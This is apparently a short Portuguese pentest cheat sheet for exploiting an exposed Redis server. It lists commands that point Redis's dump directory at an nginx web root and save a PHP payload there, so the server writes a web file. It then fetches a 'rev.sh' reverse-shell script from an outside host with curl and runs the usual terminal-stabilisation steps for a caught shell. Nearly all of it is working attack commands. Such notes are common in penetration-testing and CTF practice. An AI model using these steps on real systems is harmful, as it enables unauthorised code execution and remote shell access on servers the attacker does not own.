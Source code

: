 Redis
========================

    redis-cli -h <hostname>
    
Obter informações do banco de dados
    
    INFO

Setar um payload
    config set dir /usr/share/nginx/html 
    set test "<?php phpinfo(); ?>"
    save
 
    curl 10.10.10.10:1337/rev.sh
    
    script -c /bin/bash /dev/null
    <CTRL + Z>
    stty -a
    stty -echo raw && fg
    export TERM=xterm
    stty rows 38 columns 116